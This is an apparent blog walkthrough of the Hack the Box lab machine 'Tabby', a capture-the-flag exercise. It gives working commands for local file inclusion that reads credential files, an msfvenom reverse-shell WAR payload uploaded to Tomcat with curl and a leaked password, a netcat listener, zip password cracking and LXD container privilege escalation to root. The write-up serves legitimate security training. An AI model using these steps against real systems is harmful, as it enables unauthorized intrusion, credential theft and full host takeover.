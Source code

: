 +++
author = "Nick"
categories = ["hack the box", "Linux", "easy", "LFI", "burpsuite", "tomcat", "reverse shell", "netcat", "war file", "fcrackzip", "lxd"]
date = 2020-11-07T16:00:00Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2020/06/info-4.png"
slug = "hack-the-box-tabby"
summary = "Welcome back CTF nerds. Today we are doing the machine Tabby from Hack the Box. This is a Linux machine with an easy difficulty. Let's jump in!"
tags = ["hack the box", "Linux", "easy", "LFI", "burpsuite", "tomcat", "reverse shell", "netcat", "war file", "fcrackzip", "lxd"]
title = "Hack the Box - Tabby"

+++


Welcome back CTF nerds. Today we are doing the machine Tabby from Hack the Box. This is a Linux machine with an easy difficulty. Let's jump in!

Like we do with every box, kick it off with an `nmap` scan: `nmap -sC -sV -p- -oA allscan 10.10.10.194`

Here are our results:
```
Nmap scan report for 10.10.10.194
Host is up (0.042s latency).
Not shown: 65531 closed ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http     Apache Tomcat
|_http-title: Apache Tomcat
8443/tcp open  ssl/http LXD container manager REST API
|_http-title: Site doesn't have a title (application/json).
| ssl-cert: Subject: commonName=root@ghost/organizationName=linuxcontainers.org
| Subject Alternative Name: DNS:ghost, IP Address:127.0.0.1, IP Address:0:0:0:0:0:0:0:1
| Not valid before: 2020-06-16T13:34:28
|_Not valid after:  2030-06-14T13:34:28
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

These results are pretty basic. `Tomcat` on 8080 a container manager and an `Apache` instance. When we visit the machine via a web browser we see that we have a hosting platform. When we start sifting through the source of the page, we see some useful things.

We see that the site is refereted to as `megahosting.htb` and there is a link toe a `.php` location with an argument.

{{< figure src="__GHOST_URL__/content/images/2020/06/image-83.png" >}}

We'll add this to our hosts file and enumerate a bit. For starters we kick of a `gobuster` to see what else might be around.

Command:
`gobuster dir -u http://megahosting.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40 -x php,txt`

While that runs, we'll also want to fuzz for subdomains.

Command:
`ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt -u 'http://FUZZ.megahosting.htb' -c -v`

While those run we'll check for some other basic things, like an `LFI`. We check the `news.php` location and sure enough, there is an `LFI`. We'll load up `Burpsuite` to help with this one.

{{< figure src="__GHOST_URL__/content/images/2020/06/image-84.png" >}}

We send our `LFI` to the Repeater function and get the `passwd` file. We get this file so that we can get a good idea of the users on the machine.

{{< figure src="__GHOST_URL__/content/images/2020/06/image-85.png" >}}

{{< figure src="__GHOST_URL__/content/images/2020/06/image-86.png" >}}

We see our user we are potentially after is `Ash`. Now in addition to this, if we visit port `8080` we can see a 'default' `Tomcat` install.

{{< figure src="__GHOST_URL__/content/images/2020/06/image-87.png" >}}

What we really want to take away from this is that it gives us quite a few paths. The one of particular interest is `/etc/tomcat9/tomcat-users.xml`. Now this isn't that standard path you might think. It's actually the path WITHIN the `tomcat9` instance.

{{< figure src="__GHOST_URL__/content/images/2020/06/image-92.png" >}}

{{< figure src="__GHOST_URL__/content/images/2020/06/image-93.png" >}}

Now that we have the user credentials we log in. Now that we can authenticate, we can look for some `Authenticated RCE's`. None of the 'standard' `Metasploit` modules seemed to work. Some googling around lead us [here](https://pentestlab.blog/2012/08/26/using-metasploit-to-create-a-war-backdoor/) and [here](https://gist.github.com/pete911/6111816). The first is on creating a backdoor using a `war` file. The second is how to leverage `curl` to upload the file.

Let's create our payload first.

Command:
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.14 LPORT=
7777 -f WAR > exploit666.war`


This creates our payload.

{{< figure src="__GHOST_URL__/content/images/2020/06/image-94.png" >}}

Now we just need to upload it following the gist above.

Command:
`curl --user 'tomcat:$3cureP4s5w0rd123!' --upload-file rootme.war "http://megahosting.htb:8080/manager/text/deploy?path=/exploit666.war"`


We use the `/manager/text/deploy` path as stated [here](http://tomcat.apache.org/tomcat-9.0-doc/manager-howto.html).

{{< figure src="__GHOST_URL__/content/images/2020/06/image-91.png" >}}

Now with our payload uploaded, we just need to start up a `netcat` listener and execute. To do that we browse to our payload on 8080. Once we do, we get a shell back on our listener! Note: I tried the above at first with `MSFPC` and wasn't able to catch a shell back.

{{< figure src="__GHOST_URL__/content/images/2020/06/image-95.png" >}}

We'll upgrade our shell and look for a way to pivot into `ash`. We'll download `linpeas` and start enumerating. We see a file listed as `16162020_backup.zip`

{{< figure src="__GHOST_URL__/content/images/2020/06/image-96.png" >}}

We'll try to download this and see what's inside.

{{< figure src="__GHOST_URL__/content/images/2020/06/image-97.png" >}}

When we try to unzip it, we are prompted with a password.

{{< figure src="__GHOST_URL__/content/images/2020/06/image-98.png" >}}

We can try to brute the password with `fcrackzip`.

Command:
`fcrackzip -D -p /usr/share/wordlists/rockyou.txt -u 16162020_backup.zip`

{{< figure src="__GHOST_URL__/content/images/2020/06/image-99.png" >}}

As we look through the files, its just a basic backup. Nothing to be found inside. So the next logical step is, well, maybe this user has reused passwords. We try to `su` to `ash`.

Command:
`su ash`

And it works!

{{< figure src="__GHOST_URL__/content/images/2020/06/image-100.png" >}}

We head over to the users home directory and grab our `Users.txt` flag. We will generate an new keypair for this machine using `ssh-kegen`. We can then copy this key over to the `authorized_keys` file under Ash and SSH in. Now we can start our internal enumeration again, this time as Ash.

The enumeration doesn't come back with much. the `lxd` group is is a slightly different group to see a user as a part of. Some googleing around for 'Priv esc lxd` lead me to [this resource](https://www.hackingarticles.in/lxd-privilege-escalation/). We want this part in particular:

{{< figure src="__GHOST_URL__/content/images/2020/06/image-101.png" >}}

Let's follow these steps as shown to hopefully escalate! From the PoC:

Command:
```
git clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
```

The first run failed due to some kind of connectivity error. I simply deleted the rootfs folder and re-ran `./build-apline`. Once it finished successfully, we are left with a ziped file.

Now we spin up a `SimpleHTTPServer`.

Command:
`python -m SimpleHTTPServer 80`

And download the file. Now we import the image file.

Command: 
`lxc image import ./apline-v3.10-x86_64-20191008_1227.tar.gz --alias rfimage`

{{< figure src="__GHOST_URL__/content/images/2020/06/image-102.png" >}}

We can use the `lxc image list` command to see if our image has been imported correctly.

{{< figure src="__GHOST_URL__/content/images/2020/06/image-103.png" >}}

Now we issue config commands to our image.

Commands:
```
lxc init rfimage fire -c security.privileged=true
```

{{< figure src="__GHOST_URL__/content/images/2020/06/image-104.png" >}}

`lxc config device add fire rfimage disk source=/ path=/mnt/root recursive=true`

{{< figure src="__GHOST_URL__/content/images/2020/06/image-105.png" >}}

```
lxc start fire
lxc exec fire /bin/sh
```

{{< figure src="__GHOST_URL__/content/images/2020/06/image-106.png" >}}

Now that we're in the contiainer we navigate to `/mnt/root` like the PoC says. This allows us to see all the resources from the host machine.

{{< figure src="__GHOST_URL__/content/images/2020/06/image-108.png" >}}

Awesome! We head over to the `root` directory to group our `root.txt` flag!

{{< figure src="__GHOST_URL__/content/images/2020/06/image-107.png" >}}

This box was pretty fun. If you enjoyed this write-up and / or learned something along the way, shoot some me some respect on [Hack The Box](https://www.hackthebox.eu/home/users/profile/95635).



